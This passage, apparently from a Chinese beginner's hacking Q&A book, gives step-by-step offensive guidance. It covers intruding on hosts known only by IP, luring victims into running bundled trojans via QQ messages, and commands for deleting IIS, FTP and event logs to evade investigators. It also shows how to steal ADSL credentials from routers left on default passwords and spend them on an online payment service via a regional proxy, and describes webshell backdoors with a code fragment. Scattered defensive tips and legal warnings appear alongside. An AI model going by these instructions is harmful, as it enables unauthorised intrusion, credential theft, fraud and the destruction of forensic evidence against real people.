首先不得不承认，如果以目前初学网络安全的知识和经验，想只凭一个 IP 地址入侵对方的电脑是十分困难的。首先你所知道的 IP 未必就是你想入侵目标的真实 IP，比如在网吧上网的用户，很多情况下同一网吧内的用户的 IP 地址全是一样的。

假设你想入侵的是网吧中上网的一台主机，你如何去区分这同一 IP 的同网吧的数百台电脑哪一个才是你想要入侵的人机呢？同网吧内的 IP 相同，是因为它们都使用的是一台服务器进行代理上网的模式，你看到的 IP 地址，并不是你入侵计算机的 IP，而只是那台代理服务器的 IP 地址，你的“靶子”就没有瞄对方向。

如图16所示，这些 IP 和端口都是代理服务器所打开的，如果对这种端口发起 DDoS 等攻击，且不说是否有效，目标首先就找错了。

这种以代理方式上网的情形，在网吧、学校、公司及小区宽带中都常常采用。这样做的好处是能具有“集中安全”，像母鸡保护小鸡一样，把相对脆弱的子系统保护在自己身后，安全工作主要在这台服务器上维护就可以了。只要服务器是安全的，不被入侵，处于这扇“挡箭牌”后面的系统就不会有太大问题。

另一种 IP 不是真实 IP 的情况是对方使用了代理 IP，使用代理 IP 上网，显示的 IP 为代理服务器地址或者无法显示 IP，如图17所示。你要攻击的目标，也不在你的射程内。

就算 IP 地址的确是属于你要攻击的那台主机的，如果对方有防火墙，会将你发送的数据包阻挡在外，使你从网络上无法对目标主机进行“接触”。如果被防火墙阻挡，你连扫描都无法正常进行，进行入侵更是难以实现，如图18所示。

但是请注意，从理论上讲也并不是没有办法绕过防火墙，至少对于软件形式的防火墙还是有办法绕过的。这里由于大家还处于初学阶段，暂时不详细介绍，在以后介绍某些工具和穿越防火墙技术时会有详细的操作和知识供大家学习。

现在假设我们已经成功地绕过防火墙的阻隔，使数据包到达了目标主机，但并不意味着我们对主机的入侵目的就能顺利进行了，在本机上还有很多难关在等着我们。比如常见的一种入侵手法 IPC 连接，就会因为系统本身将所有的外来用户一概只分配为 GUEST 权限或根本不启用 IPC，从而造成限制，使你前面的入侵几乎徒劳无功，如图19所示。

你想要进行入侵的那个端口，可能会因为系统已经关闭或停止了相关服务而无法使用，如图20所示。

进行入侵后，上传工具也要面对防火墙和杀毒软件及组策略的限制。对于只知道 IP 进行入侵，可以采用的思路如下：

首先判断这个 IP 主机的性质是服务器还是个人电脑，如果是服务器，就利用相关漏洞进行尝试。比如是 WEB 服务器，安装有 IIS，就尝试 SQL 注入；如果是数据库服务器，就尝试默认口令或弱口令；主机装有 FTP 就试连接上去后看看用户有没有执行权限（一般情况下是肯定不会有的，但是作为思路必须一试）；如果是邮件服务器就看看有没有可能进行邮件木马的传播。

有时候，直接访问 IP 也会给我们惊喜，如图21所示。

由于这台主机没有配置好相应的权限，使得我们能浏览 WEB 目录，其中引人注意的是 passwd 这个目录，明显告诉我们这里存放有密码相关的信息，进去看看能发现些什么，如图22所示。

竟然发现了数据库！点击它从 IE 开始下载，如图23所示。

图23

下载到本地后打开，查看密码，登录后台想办法拿权限吧！这对于我们可真是个意外的惊喜。如果我们所获取的 IP 是一台个人电脑，入侵的难度有两方面：

一方面可以说是比服务器的入侵更难，因为个人电脑上往往打开的相关服务很少，像 IIS、MAIL、FTP 服务等一般都没有。服务安装越少，出问题的环节也就越少，可以攻击的“点”更少；

另一方面又可以说比服务器更容易入侵，这是因为使用个人电脑的往往是个人，而并非像服务器那样通常是由对电脑和网络知识比较了解的人配置和操作。安全知识的淡薄，使得机器的防护并不严密。

如果说你几乎不可能遇到一台没有安装防火墙和杀毒软件的服务器的话，相对地你有很大可能遇到一台没有安装任何防火墙和杀毒软件的个人计算机！如图24所示，这是通过远程控制木马抓取到的某肉鸡的桌面截图。请注意右下角，没有任何杀毒软件运行，如果有的话，很可能就会杀掉木马，不至于被人控制了。

图24

有的个人用户虽安装有杀毒软件，但没有及时地进行系统补丁的更新，使得一些陈旧的漏洞仍然存在可以被利用的隐患。这样我们的入侵难度大大降低，在有严重的系统漏洞存在的前提下，只需下载一个工具 MSF 就能轻松溢出获得 CMD SHELL，如图25所示。该工具的详细使用将在第六章介绍。

对个人电脑的入侵，不像服务器那样是针对入侵一台已经配置好的、冷冰冰的机器。个人电脑是一个有思想、有意识、有性格，当然也有缺点的人在操作的计算机。对于个人计算机的入侵，不仅是人与机器的较量，更是人与人的较量，所谓的“社会工程学”将在这里发挥其巨大的作用，诱骗对方点击挂好木马的网页即可轻松地完成对个人电脑的攻击。

当 IP 为个人主机时，伴随而来的是许多衍生攻击。往往得到 IP 的途径是通过 QQ 显示 IP，那么此刻应该想到利用 QQ 传播木马来获得权限，如常见的 QQ 消息就是一种对个人主机的入侵手段。例如发送一些诱惑的 QQ 消息来让对方点击我们挂马的网站，如图26所示。

可以将木马与一个小游戏、Flash 或者 RM 文件进行捆绑，诱骗对方点击运行木马。

（FLASH 和 RM 格式的文件不像 EXE 那么敏感，通常不会被怀疑，对方运行的几率高），这些都是针对“人”的办法。

> 资深黑客渗透内幕答疑

即便存在以上所述的种种入侵的渠道和可能性，我们仍要强调，对于只知道 IP 就进行攻击还是很难的，目前能做到知道 IP 就能进行攻击这点的只有系统级的溢出漏洞。如果微软或者其它常使用的软件（腾讯 QQ 都曾有过溢出漏洞，还有“魔兽世界”游戏中常用的语聊工具 UC TALK 等都曾有远程溢出漏洞）存在重大安全漏洞，那么使用对其漏洞的利用工具，入侵真的简单地变得只要输入一个 IP 地址和几个参数，就能得到对方主机的系统权限。

但是请注意，千万不要以为事情就是这么简单，这里仍然有两个问题阻拦着我们，并且它们几乎是致命的，让我们几乎无法使用溢出攻击作为我们的主要攻击手段：

- 1. 系统级别的漏洞出现的时间是不一定的，有时一年出一个，有时一年出 N 个。我们要攻击一台主机时，不能假定我们正处于一个系统漏洞存在的高发期。系统的重大漏洞总会出现，问题在于它什么时候出现，是否在我们需要时出现？这些都不确定。
- 2. 即使是出现了重大的系统安全漏洞，我们能否获得其利用工具或代码呢？重大系统漏洞刚出现时，都只是流传在极少数泰山北斗式的技术强人手中，绝不会外传。即便到了开始传播的阶段了，这时此漏洞的影响仍属 0DAY 级。

这时作为一个普通网络安全爱好者的你，能获得它吗？答案当然是否定的，这时的漏洞利用方法，在黑市上可能正以数千甚至数万的价格传播交流着。等到第三个阶段，这种漏洞利用工具可能已经随处可见，甚至能从各黑客技术网站直接免费下载到，那么此时你不必高兴，也许这个漏洞 99.99% 已经没用了，针对补丁早已发布，绝大多数网络上的计算机都已打好此补丁，你下载到的利用工具已经是过期产品，失效了。

当然，结合我前面提到的，针对疏于升级系统补丁的个人计算机，或许还有一定的利用价值。最后总结一句话，溢出攻击是对付一台只知道 IP 的主机的最好办法。很遗憾的是，对于普通人来说，可利用的机会几乎为零。以上就是对只知道 IP 能否进行入侵这个问题的全面分析。

## 第三章　常见问题答疑解惑

### 4 黑客文章里常说的“擦屁股”、“清除痕迹”是怎么回事？

在完成一次入侵之后，在这次入侵中我们对服务器操作的行为都会被系统记录下来，我们的整个过程都像是在监视器的监视下完成的，管理员可以通过这些相关记录分析我们的入侵轨迹、查杀木马后门、研究入侵思路，甚至提取犯罪证据，因此必须想办法将其清除，这就是黑客文章中常说的“擦屁股”、“清除痕迹”、“打扫现场”等隐晦的术语。

日志文件通常有应用程序日志、安全日志、系统日志、DNS 服务器日志、FTP 日志、WWW 日志、IIS 日志等等，可能会根据服务器的不同，所开启的服务也不同。下面是常见日志的默认位置（注意日志位置是可以更改的）：

```text
安全日志文件：%systemroot%\system32\config\SecEvent.EVT
系统日志文件：%systemroot%\system32\config\SysEvent.EVT
应用程序日志文件：%systemroot%\system32\config\AppEvent.EVT
```

这三个日志在同一目录下，如图27所示。

这三个日志可以在“开始”－“管理工具”－“事件查看器”中看到日志的内容，如图28所示。

左边选框是查看日志的类型，而右边是日志记录表，标明了记录的时间和一些简单的信息，如图29所示。

如果要查看详细信息，在右边的表中双击所选择的日志条目，会弹出详细的日志报告，如图30所示。

有些细心的管理员会修改系统日志、FTP 日志、应用程序日志的保存地址以防止这些日志被删除，因为一般的删除日志工具往往只会删除默认文件名的日志，如果被修改就失去作用了，可以看出工具的局限性。

我们可以在注册表 **HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Eventlog** 键下看到这几个日志被修改的保存地址和文件名，如图31所示。

从图32中可以看到，该服务器的日志保存文件的数值 `%SystemRoot%\system32\config\AppEvent.evt` 被修改为了 `%SystemRoot%\system32\config\AppEvent_nohack_Evt`。

IIS 日志的默认位置是 `%systemroot%\system32\logfiles\w3svc1\`（以每天一个的文件形式保存，如图33所示）。
IIS 的 FTP 日志：`%winsystem%\system32\logfiles\msftpsvc\`（以每天一个的文件形式保存）。

打开文件可看到记录的是用户访问页面的请求提交，这其中包括了访问的文件、攻击者 IP 地址、出错提示等许多有助于查找入侵痕迹的重要数据，如图34。

删除日志的方法：如果是得到了远程桌面，删除日志比较简单，进入相应的目录，删除相应的文件即可。大部分情况是在命令行下，即 CMD 的反弹 SHELL 或 WEBSHELL 中的命令行工具中，通常要删除的日志有如下几种（请注意，要删除日志需具有管理员权限）：

- 1. 清除 IIS 日志

先使用 `net stop iisadmin /y` 命令，关掉 IIS 服务，如果不关闭服务是无法删除日志的，如图35所示。

```text
DEL %systemroot%\system32\logfiles\w3svc1\*.*
```

然后执行上述命令删除 `w3svc1` 目录下的日志。需要提醒的是，这个目录有可能被系统自己改成其它名字，如图36所示，目录名为 `W3SVC87257621`。

删除完成后记得将 IIS 服务恢复，使用命令 `net start w3svc`，如图37所示。

```text
C:\Documents and Settings\Administrator>net start w3svc
World Wide Web Publishing Service 服务正在启动.
World Wide Web Publishing Service 服务已经启动成功。
```

> 请注意：`%SYSTEMROOT%` 代表 WINDOWS 所在的系统目录以及相应的操作系统版本，如 WINDOWS2003 装在 C 盘，则表示 `C:\WINDOWS`，如果是 WINDOWS2000 装在 C 盘，则是 `C:\WINNT`。

一切清除完后最后启动 IIS，使用命令 `Net start iisadmin`。

### （2）清除 FTP 日志

FTP 日志和 IIS 日志一样，依赖于服务保护，如果没关掉服务就进行删除操作，会出现如下提示：

```text
进程无法访问文件，因为另一个程序正在使用此文件。
先停掉 FTP 相关的服务
net stop "task scheduler"
下面的服务依赖于 Task Scheduler 服务。
停止 Task Scheduler 服务也会停止这些服务。
Remote Storage Engine
是否继续此操作? (Y/N) [N]: y
```

我们选择继续操作，按 `y` 键，提示如下：

```text
Remote Storage Engine 服务正在停止.
Remote Storage Engine 服务已成功停止。
Task Scheduler 服务正在停止.
Task Scheduler 服务已成功停止。
```

OK，它的服务停掉了，同时也停掉了与它有依赖关系的服务。再来试着删一下！命令 `D:\SERVER>del schedlgu.txt`，成功删除了。

通过以上的操作，大部分日志就删除掉了，有一点需要提醒大家特别注意，这样清除日志只是“表面”上的删除，就是说虽然在系统里已经不存在这些日志记录了，可是在硬盘上物理的痕迹仍然存在，通过专业的硬盘恢复手段，还是能够恢复这些日志的。这点提请大家特别注意！

### 5 据说黑客有手段能刷 QB 和钻石服务及游戏点卡之类的，这是真的吗？如何实现的？

黑客通过技术手段来刷 QB 等是完全可以实现的，也就有很多人以此行骗，宣称能帮忙刷 QB 和游戏点卡等来骗取钱财，类似这种骗子代刷广告比比皆是，这一点要提醒大家特别注意，如图38所示。

其实，刷这些东西并不神秘，一些人宣称是利用腾讯系统漏洞刷 QB 或游戏 BUG 刷的 QB 和游戏点卡，这种说法很明显就是在骗人，大家不要上当。为了防止大家上当受骗，这里就把刷 QB 和游戏点卡的方法简单透露给大家，希望大家不要以此来谋取不正当利益，或进行破坏。

刷 QB 等大部分手法利用的是互联星空网上消费，互联星空网上消费只需要你知道 ADSL 账号和密码就可以进行。账号和密码可以直接进入 ADSL 获得。方法为：扫描一个 IP 段，查找开 80 端口的个人计算机。个人计算机开着 80 端口就是 ADSL 允许 WEB 访问，如图39所示，是我在一个 ADSL 网段中扫到的一台开着 80 端口的计算机。

然后在 IE 浏览器中输入 IP 地址，即可连接上它的 ADSL，这时会弹出一个对话框，提示输入账号和密码，如图40所示。

请注意这时的账号和密码不是它的 ADSL 账号，而是它所使用的 ADSL 路由器的账号和密码。由于个人用户的安全意识缺乏，通常都没有更改设备的默认账号和密码，所以一般使用默认的账号和密码即可登录。如账号 admin 和密码 admin、账号 admin 密码 epicrouter、账号 root 密码 root 等。

进入路由器之后，会看到在 WAN 设置里记录着 ADSL 的账号和密码，其中账号是以明文保存，密码是以 * 号保存的，如图41所示。

这时点击 IE 浏览器：“查看”－“源文件”，在弹出的记事本里点击“编辑”－“查找”，输入刚才的 ADSL 账号，查找到记事本中的相关位置，在“密码”后的一串字符就是 ADSL 的密码，如图42所示。

```html
<TD class=tablerowheader>用户名:&nbsp;&nbsp;</TD>
<TD class=alignleft><INPUT class='id=MacwanUsrName' maxLength=255 size=16 value=wh8200916 name=MacwanUsrName></TD></TR>
<TR>
<TD class=tablerowheader>密码:&nbsp;&nbsp;</TD>
<TD class=alignleft><INPUT class='62510019' id=MacwanPasswd ...>
```

也可以在 ADSL 路由器 WAN 设置的 * 号处使用查 * 号工具直接看到，使用这个 ADSL 账号密码去互联星空登录，即可开始消费，如图43所示。

有一些地方限制了只准当地的 IP 地址登录才允许消费，没关系，我们搜一个当地的代理 IP。例如搜到的 ADSL 账号是北京地区的，那么自然我们需要找一个北京地区的代理 IP，如图44所示。

把这个代理 IP 地址在 IE 代理服务器中填上，或者使用专门的代理 IP 工具启用，然后登录就可以用刚才刷的 ADSL 账号去互联星空消费了，如图45所示。

有些地区的互联星空有插件，这样的话连代理也是无法登录的。不过好在有破除插件的小工具，这些都能在网上搜到。作为个人用户，我们当然要防止别人盗取我们的 ADSL 账号，最简单直接的方式就是修改路由器的默认账号。先找到路由器的说明书，看看你所使用的默认密码是什么？然后打开 CMD 输入 `ipconfig -all` 命令，看看网关是多少，如图46所示。

英文 “Default Gateway” 就是网关，这里是 192.168.1.1。在 IE 浏览器地址栏输入网关的 IP 就能登录路由器，输入路由默认账号密码登录，这里我们所做的是和黑客一样的事情，如图47所示。

登录成功后，找到用户管理，给路由器的管理员修改一个既不容易被猜出又容易记忆的密码，比如你的名字拼音加几个数字，如图48所示。

修改完之后不要关闭 IE 浏览器，进入保存菜单，选择储存，这时我们修改的密码才被应用到了路由器上，现在我们的路由器就不怕黑客进来盗取 ADSL 账号了。

再回到我们这节的主题上来，另一类刷 QB 的方法是使用灰鸽子的木马操作肉鸡直接登录上互联星空进行操作。

还有一类是在网吧中使用的刷法，因为有些网吧代充点卡，但是数据库服务器的安全防护很不严密，可以通过一般内网入侵手法，或者网管软件的漏洞入侵成功，之后就可使用网吧的服务器刷 QB 和点卡。

以上就是刷 QB 和点卡的简单过程，针对这些刷 QB 的手法一定要做好安全防护。最后提醒朋友们一句，使用盗取的账号进行消费是盗窃行为，面临的法律后果是十分严重的！！！

### 6 什么是 WEBSHELL？它是做什么的？

WEBSHELL 就是一个脚本文件，一个可以用来操作和管理网站程序的工具，通过本书的学习，大家应该能够理解什么是 ASP 文件，什么是 PHP 文件吧？一个 ASP 或 PHP 的文件通过执行代码能实现生成网页供我们浏览的目的，同理，也有一些 ASP、PHP 的脚本程序能实现操作其它文件的功能，它能对网站其它文件和目录实现修改、删除、覆盖、上传、下载，甚至是执行命令等多种功能，如图50所示，为海洋顶端 WEB 木马的代码截图。

```asp
<% ... option explicit ...
Dim theAct, sTime, aspPath, pageName, strBackDoor, fsoX, saX, wsX
...
strBackDoor = "<script language=vbscript runat=server>"
...
%>
```

黑客在入侵一个网站后，就会把一个能实现这些功能的脚本文件上传到网站空间里用来控制该网站，这个 ASP、PHP 或其它格式的脚本文件就被称为这个网站的 WEBSHELL，它的正常运行依赖于 IIS、APACHE 等网站服务程序。

如果说灰鸽子等程序是对应计算机系统的能够控制对方计算机的木马，那么 WEBSHELL 可以理解为对应的网站程序，能控制网站程序的木马。而不同的是，WEBSHELL 并非一个 EXE 的可执行程序，而是一个脚本程序，可以使用记事本打开 WEBSHELL 木马进行编辑。

WEBSHELL 的连接有一个显著特点，那就是防火墙是无法阻挡它的，因为 WEBSHELL 的连接是通过 80 端口连接的，访问过程与浏览网页一样，假设你在网站上放有一个文件名为 MUMA.ASP 的 WEBSHELL，那么只需在 IE 浏览器地址栏里输入 http://www.xxx.com/muma.asp 即可连接上，如图51所示。

网站并不能区分连接的是 WEBSHELL 还是访问的是一个正常页面，这种访问只会在 WEB 日志里留下一段访问文件的记录，没有明显的痕迹，因此网管分析日志查找 WEBSHELL 是十分困难的。WEBSHELL 虽然不受防火墙的制约，但不等于不被杀毒软件查杀，而且目前“霹雳网站助手”之类的 WEBSHELL 特征分析工具也能查杀 WEBSHELL。

下面以常见的一种 WEBSHELL 海洋顶端为例，说明 WEBSHELL 的常用功能。连接到 WEBSHELL 的文件后，输入密码我们就进入了程序，主要功能如图52所示。

- **系统服务**：可以看到 WEBSHELL 所在服务器上正在运行的服务；
- **服务器相关数据**：能看到服务器的信息，如图53所示。
- **组件探针**：可以看到服务器支持哪些组件。什么是组件这里暂时不作详细介绍，大家……

# 第二章 常见问题答疑解惑

明白组件对应支持哪些功能就可以了。


> 资深黑客渗透内幕答疑

“WScript.Shell 程序运行器”和“Shell.Application 程序运行器”：用来在服务器上执行 CMD 命令，是危害极大的功能。利用这个功能可以调用 CMD 执行命令，是 WEBSHELL 与系统进行渗透和交互的桥梁。

“FSO 文件浏览器”：这一功能可以帮助我们像浏览本地文件一样操作和浏览文件，非常直观。会操作电脑的人都能使用 WEBSHELL 对网站文件进行复制、粘贴、修改、删除、重命名等操作，如图54所示。


“上传文件”：这个功能使我们很方便地将本地的工具、木马等上传至服务器。打开上传界面，在左边写入保存文件的地址和文件名，右边选择要上传的文件，如图55所示。


图55中我们把本地的 FSO.txt 上传至服务器根目录下。为了确认是否上传成功，可以访问一下看看，如图56所示。


“数据库查看器”：现在的网站大部分都有数据库，所以功能比较齐全的 WEBSHELL 里也会整合对数据库的操作功能，如图57所示。


图57

“注册表读取等其它功能”：这一类功能一般的 WEBSHELL 并不附带，只是为了方便操作而整合的一些小功能，如注册表的操作、SERV_U 的操作等，如图58所示。


图58

WEBSHELL 就是能管理操作网站程序的一种脚本工具。能成功在网站上得到 WEBSHELL 就基本等于控制了整个网站，它的功能相当多，在其它章节会陆续介绍，本章就不再叙述了，只要大家先明白 WEBSHELL 是什么就够了。

### 7 要如何开始学习黑客技术呢？

首先要明白，黑客技术是一门学问，不是雕虫小技，不可能通过掌握几个关键点就能学会，需要大量的各种门类的知识积累。因此，作为黑客，第一要具备的素质是耐心，不仅学习时要耐心地去看复杂枯燥，甚至根本不知所云的代码，在进行网络安全检测时，也要有耐心去寻找网站的漏洞。第二个素质必须是行动派，宁可只简单地看过一点资料后就迫不及待地去尝试，也不要只看资料而不去尝试，却认为自己已经掌握。

有了以上两点，学历和智商都不是阻碍学习黑客技术的难关。学习时最好能加入一个正规的网络安全培训组织，这样能得到被综合整理的学习资料，还有专门为学员制作的教程，能省去我们四处学习无门的烦恼。答案是准确详尽的，避免道听途说和因为自己的错误理解造成的学习误区。在学习中遇到的问题如果不及时解决，会很大程度地阻碍我们的学习进程，影响学习兴趣。

不要去胡乱“拜师”，这有可能不仅会被骗取钱财和精力，而且还学不到真正实用的东西，并对很多知识造成误导，使我们白白努力去学习错误和模糊的东西。

另外，必须起码订购一种黑客类的杂志，用以动态地了解黑客技术的发展，近距离地接触黑客相关知识。不要只停留于网上的资料，以为网上包罗万象，书已经是过时的东西。任何时候书本都有不可取代的作用，杂志与网上的资料相比有三个明显优势：一是可靠性比较高，不像网上的资料有的只是讨论中或是某种意外条件下才成功的技术被到处流传；二是时效性强，得到的资料都是比较新的，网上搜到的资料可能是许多年前的，时过境迁很多东西都发生了变化；三是详尽，操作步骤都有具体的描述，甚至还配有图片，网上的很多资料没有能做到这点。然后你需要在计算机上安装一个 WIN2003 操作系统服务器版，这是我们学习必不可少的平台。在学习中，我们少不了使用工具，特别对于初学者，工具是必不可少的。一个黑客需要哪些工具，在以后的文章中会给大家详细介绍常用工具及主要功能。这些工具的使用都要熟练，因为它们中间优秀的产品可能会伴随我们的整个黑客生涯。

一些常用的工具在第六章《黑客工具实战技巧》中有介绍，常用工具的下载可以通过相关网站或者 www.Google.com 搜索，因为任何一个网站的软件收录都不可能做到面面俱到，总有需要在其它地方搜寻的时候。要时刻记得，Google 是我们的好伙伴、好辅导、好管家！

有什么不明白的，在向老师提问前，可以先去 Google 寻求一下答案，自己能理解得更深入。在老师回答时，也不会遇到名词或细节不懂的情况。如果不先 Google，自己学到的少，在听老师的解答时，也往往有如坠雾中的感觉。就如本节这个问题，如果在 Google 中进行搜索也会得到其它的信息，可以了解其他人在学习黑客技术方面有什么好的经验，兼听则明。如图59所示。


在初学时，可以从身边与黑客相关的事学起。比如上网的肯定中过木马吧，那么就先从了解什么是木马、怎么杀木马开始，继而了解如何使用木马、如何传播木马、如何改装木马。这样有顺序的渐进式学习能让我们受益很多。

另外，黑客技术的学习到底要学哪些相关知识，很多朋友并不知道。以个人的经验，编程这一门在初学阶段其实是不必分精力去学习的，因为黑客技术和编程技术是有区别的，或者说在我们学习的初期它还根本用不到。并且编程太繁杂，不沉下心来学习钻研是没有一点用的。人的精力是有限的，既然是学习黑客技术，就集中精力专攻一处。

- 一是脚本：首选 ASP 脚本，上手容易，适合初学者，学习时目标不要定得太高，不要求会编写 ASP 程序，只要能基本看懂即可；
- 二是数据库：ACCESS、MYSQL、MSSQL 都要学习一点，掌握常用的命令即可；
- 三是常用操作系统：WINDOWS、LINUX 要会操作，特点要了解，常使用的命令和功能要熟悉。

新人常犯的毛病就是刚接触这类技术时觉得新鲜有趣，每天就想接触更新的，结果天天看技术资料，所知道的好像一本百科全书，能做出来的却等于 0，这点在学习中注意避免。在初入门时，学习的态度不妨笨拙一点，就依据动画教程或文章上介绍的黑客方法试一遍，锻炼动手能力，不要怕累怕辛苦。以上就是刚开始学习时的一些方法，希望大家通过本节在学习中获得成功，获得喜悦。

### 8 什么是 CMD？如何使用它？

早年使用过 WINDOWS98、WINDOWS ME 的人应该记得有一个叫 command 的东西，它能在 WINDOWS 的操作系统下模拟一个 DOS 操作界面，使各种 DOS 命令在 WINDOWS 下执行。CMD 就是 WINDOWS 下的命令行工具，能以命令的方式实现计算机操作，同时又整合了大量的工具调用，它通常位于系统安装目录的 **Windows\system32** 目录下，如图60所示。


图60

我们通常运行程序是用鼠标双击，事实上在 CMD 里输入程序名称也能运行。使用它我们能方便地管理计算机，执行各种在图形界面下不方便进行的操作。了解 CMD 的核心就是了解它常用的各种命令。

在 WINDOWS 下使用 CMD 的方法很简单，单击“开始”→“运行”，输入 **CMD** 并确定，会弹出一个黑色的窗体，这个就是 CMD 的命令输入框，在中间有一个“_”（下划线）在闪烁。这是命令提示符，在这里输入命令按回车即可执行。光标前面的 **C:\Documents and Settings\Administrator>** 是当前所在的路径，例如这里就是在 C 盘的 Documents and Settings 目录下的 Administrator 子目录中。

关于 CMD 的使用我们先来看一个简单的例子。如果在 CMD 下执行程序，比如我们要执行一个名为 QQ.EXE 的程序，它位于 **D:\Tencent\QQ\** 目录下，当前操作符是在 C 盘下，输入 **D:** 回车，如图61所示，跳转到了 D 盘。


图61

**CMD 下执行程序有一个规则**，就是先切换进入目录，再运行该目录下的程序名。这个步骤和我们在 WINDOWS 图形界面下要运行程序，先得进入程序所在目录，再双击那个程序图标是一个过程（桌面上的快捷方式只是目录中那个程序的镜像）。

在 CMD 命令行下输入 **cd Tencent\QQ** 进入 QQ 程序所在目录，如图62所示。


图62

这时 CMD 提示符会变成 **D:\Tencent\QQ>**，后面有一个光标闪烁，已经进入 **D:\Tencent\QQ**。现在大家都知道了，要从 CMD 下进入目录的命令就是“**cd 目录名**”的形式。现在光标停在 **D:\Tencent\QQ\** 后，输入 QQ 或 QQ.exe，QQ.EXE 即被执行。

下面来讲讲 Dir 命令，输入 **dir** 可以查看当前目录的文件和子目录列表，输入 **dir c:\** 可以查看 C 盘的文件和子目录列表，如图63所示。

请注意语法，在要查看的硬盘或目录后面要加上 `\`，如果没有加上 `\` 将不是 C 盘下的文件列表。如图64、图65所示，分别为输入 `dir c:\` 和 `dir c:` 的区别。


请注意图64，是执行的 `dir c:\`，回显中提示了是在 `c:\` 的目录；图65执行的 `dir c:`，回显提示 `c:\Documents and Settings\Administrator` 的目录，也就是显示当前操作符所停留目录的文件列表。小小一个 `\` 造成的结果截然不同，又属于新手在学习中常犯的一些错误，这里特别提出来强调一下，希望引起注意。

CMD 下也能实现删除文件、建立目录、删除目录等文件操作。删除文件的命令为：`del 要删除的文件名`，如 `del c:\123.txt`，就是删除 C 盘下的 `123.txt` 文件，如图66所示。


建立目录使用命令 `md c:\hack1`，表示在 C 盘下建立 `hack1` 目录，建立目录后马上用 `dir` 命令查看 C 盘的文件列表，`hack1` 目录建立成功，如图67所示。

删除目录使用命令 `rd c:\hack1`，表示删除在 C 盘下的 `hack1` 目录，如图68所示。这里顺便提醒大家注意，在 CMD 命令中，删除目录和删除文件是两个不同的命令！

再看一个非常重要的命令，就是拷贝文件，命令形式为：`Copy 目标路径和文件名 复制到的路径和文件名`。例如将 D 盘根目录下的 `nc.exe` 文件拷贝到 C 盘根目录，并命名为 `ncl.exe`，可以输入命令 **Copy d:\nc.exe c:\ncl.exe**。

```bat
C:\Documents and Settings\Administrator>md c:\hack1
C:\Documents and Settings\Administrator>dir c:\
...
```

图67

图68

复制成功后用 **dir** 命令查看，的确在 C 盘根目录下生成了文件 **ncl.exe**，如图69所示。

```bat
D:\>Copy d:\nc.exe c:\ncl.exe
已复制 1 个文件。
D:\>dir c:\
...
```

图69

CMD 下还有很多方便的命令可以使用，比如想知道你与某网站的连接速度，可以使用 **PING** 命令，形式为 **ping www.sohu.com**，同时也得到了目标网站的 IP 地址，如图70所示。通过这个命令也可以知道自己与内网其它主机或网络设备的连接是否正常。

```bat
D:\Tencent\QQ>ping www.sohu.com
Pinging cachegz1.a.sohu.com [121.14.0.28] with 32 bytes of data:
Reply from 121.14.0.28: bytes=32 time=51ms TTL=55
...
```

图70

查看网络环境的命令形式为 **ipconfig -all**，如图71所示。

```bat
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix  . :
Description . . . . . . . . . . . : NVIDIA nForce Network...
Physical Address. . . . . . . . . : 00-11-09-D6-C5-E2
...
```

图71

在这里特别介绍一下返回结果中几个主要参数的中文含义：

| 字段 | 含义 |
|---|---|
| Host name | 主机名 |
| Physical Address | 网卡的物理地址 |
| IP Address | 主机的 IP 地址 |
| Default Gateway | 默认网关地址 |
| DNS Servers | DNS 服务器地址 |

以上命令只是 CMD 使用的冰山一角，可以说几乎所有的 WINDOWS 操作都能在 CMD 命令下完成，甚至包括建立服务这样复杂的命令，在以后的章节中我们会进行介绍。

### 9 什么是 DDoS 攻击？

DDoS 是英文 Distributed Denial of Service 的缩写，中文意思是“分布式拒绝服务”。它使用与普通的拒绝服务攻击同样的方法，但是发起攻击的源是多个，所以称为分布式。

DDoS 的直接结果就是导致网站无法打开，如图72所示。


图72

DoS 的攻击方式有很多种，最基本的 DoS 攻击就是利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务。网站被攻击后则无法访问，给网站带来巨大的经济损失。在被 DDoS 的主机中执行 `netstat -an` 命令，能看到大量的连接请求，如图73所示。在如此重压之下，很难有服务器能逃过被击溃的命运。


图73

早期的 DDoS 使用的原理是：首先攻击者向服务器发送众多带有虚假地址的请求；服务器发送回复信息后等待回传信息。由于地址是伪造的，所以服务器一直等不到回传的消息，分配给这次请求的资源就始终没有被释放。当服务器等待一定时间后，连接会因超时而被切断；攻击者会再度传送新的一批请求。在这种反复发送伪地址请求的情况下，服务器资源最终会被耗尽。

近年来随着 DDoS 攻击技术的发展和完善，也出现了模拟海量真实访问来消耗系统资源达到 DDoS 攻击目标的方法，并产生了较为成熟的工具，如 CC。

DDoS 攻击分为 3 层结构：攻击者、主控端、代理端。

1. **攻击者**：就是发动 DDoS 攻击的策划人。整个 DDoS“军团”被控制计算机的“总司令”，可以控制和下达攻击指令，是整个体系的核心。
2. **主控端**：是被攻击者控制的主机，同时控制大量的代理主机。在收到攻击者发来的指令后转发到代理主机上，作用相当于各级“军官”。
3. **代理端**：就是黑客通过种种漏洞或网页木马获得的大量“肉鸡”，然后在上面安装 DDoS 工具软件，一旦接到攻击指令立刻开始行动，作用相当于“士兵”。

DDoS 整个体系结构如图74所示：


DDoS 的整个运作过程并不复杂。当黑客决定发起一次 DDoS 攻击后，首先通过网络漏洞或挂网页木马得到大批“肉鸡”。肉鸡的多少至关重要，直接关系到攻击的强度和成败。当获得肉鸡后，便在上面安装好 DDoS 攻击程序，等待攻击者发出的命令，其中一部分性能突出的主机可被当作主控端，协调整个攻击过程。

DDoS 攻击虽不像其它以夺取网站控制权为目标的攻击，但是其对网站收益的影响之大，甚至还要大于其它攻击形式。试想如果网站长期不稳定，无法正常提供服务，流失的访问用户及广告费足以使一个网站由盛而衰。DDoS 的经典案例是 2005 年腾讯 QQ 大面积集体掉线，外界盛传黑客以此要挟勒索五百万。

### 什么是域名？

如果要用一句话来概括，域名是 Internet 网络上的一个服务器、一个网站或一个网络系统的名字，就像我们在网上用的网名一样。通过这个名字，我们能很容易记住该服务器，就好像通过我们的网名让网上的朋友能很快地识别出我们一样。域名最重要的作用，是能把四段难记的 IP 地址转换为容易记忆的字符。比如我告诉你记住 121.14.0.24，大多数人一时是无法记住的；但如果告诉你记住 sohu.com，应该大多数人都能第一时间记住。

121.14.0.24 就是搜狐网的主机 IP 地址。当我们在 CMD 下输入 `ping www.sohu.com` 时，如图75所示。


很显然，一串有含义便于记忆的字符组成的域名，要比一堆毫无规律的数字组成的 IP 地址容易记忆得多。一些成熟的大企业和机构的域名，更是其品牌的一部分。

